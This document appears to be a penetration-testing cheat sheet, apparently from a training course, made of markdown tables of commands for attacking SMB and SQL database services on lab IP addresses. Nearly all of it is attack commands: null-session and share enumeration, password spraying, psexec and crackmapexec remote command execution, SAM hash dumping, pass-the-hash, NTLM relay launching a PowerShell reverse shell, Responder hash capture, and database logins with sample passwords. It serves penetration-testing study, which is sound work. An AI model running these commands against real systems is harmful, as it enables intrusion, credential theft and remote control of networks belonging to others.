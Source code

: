 ### Attacking SMB

|**Command**|**Description**|
|-|-|
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128` | Network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 -r notes` | Recursive network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the `rpcclient`. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeratition of the SMB service using `enum4linux-ng`. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the `impacket-psexec`. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using `crackmapexec`. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using `impacket-ntlmrelayx`. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |
| `sudo responder -I ens33` | We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes. |


### Attacking SQL Databases

|**Command**|**Description**|
|-|-|
| `mysql -u julio -pPassword123 -h 10.129.20.13` | Connecting to the MySQL server. |
| `mssqlclient.py -p 1433 julio@10.129.203.7` | Connecting to the MSSQL server. |
| `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30` | Connecting to the MSSQL server.  |
| `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux.  |
| `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| `mysql> SHOW DATABASES;` | Show all available databases in MySQL. |
| `mysql> USE htbusers;` | Select a specific database in MySQL. |
| `mysql> SHOW TABLES;` | Show all available tables in the selected database in MySQL. |
| `mysql> SELECT * FROM users;` | Select all available entries from the "users" table in MySQL. |
| `sqlcmd> SELECT name FROM master.dbo.sysdatabases` | Show all available databases in MSSQL. |
| `sqlcmd> USE htbusers` | Select a specific database in MSSQL. |
| `sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES` | Show all available tables in the selected database in MSSQL. |
| `sqlcmd> SELECT * FROM users` | Select all available entries from the "users" table in MSSQL. |
| `sqlcmd> EXECUTE sp_configure 'show advanced options', 1` | To allow advanced options to be changed. |